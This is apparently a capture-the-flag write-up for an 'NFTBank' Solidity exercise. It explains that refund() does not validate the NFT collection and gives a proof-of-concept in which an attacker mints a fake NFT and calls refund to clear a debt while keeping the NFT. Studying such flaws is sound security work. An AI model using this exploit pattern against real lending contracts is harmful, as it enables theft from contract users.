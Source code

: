# NFTBank

## Description

`refund()` function lacks the check if anyone is adding a fake NFT.
 
An Attacker can create a fake NFT contract and call the `refund` with the new NFT deails which clear out his debt.

Attack Steps:

1. Attackers creates the newNFT and mint 1 token for himself

2. Attckers then approves the bank to rent.

3. Attackers then call the `refund()` funciton with it's collection and id of new NFT he just created.

In refund function, this for loop received the wrong address and id, the default valueu of `rentedNFTs` be 0, which is of `CryptoKitties`

```
for (uint i; i < rentNFTs.length; i++) {
            if (rentNFTs[i].collection == collection && rentNFTs[i].id == id) {
                rentedNft = rentNFTs[i];
            }
        }
```



---

## POC:

In the test solution.

```solidity

// NOTE - add this at the after  CryptoKitties contract
contract CryptoDoggies is ERC721("CryptoDoggies", "DOG"), Ownable {
    function mint(address to, uint id) external onlyOwner {
        _safeMint(to, id);
    }
}

        //solution  

        CryptoDoggies dog;
        dog = new CryptoDoggies(); // Created a new instance of Attacker's fake NFT

        dog.mint(attacker, 2); // Attacke's mint 1 NFT
        dog.approve(address(bank), 2); //Attackers permites the bank to transact on behalf of him

        bank.refund(address(dog), 2); //Attacker calling for the refund
        // now attack cleared his debt and also holding the NFT
```
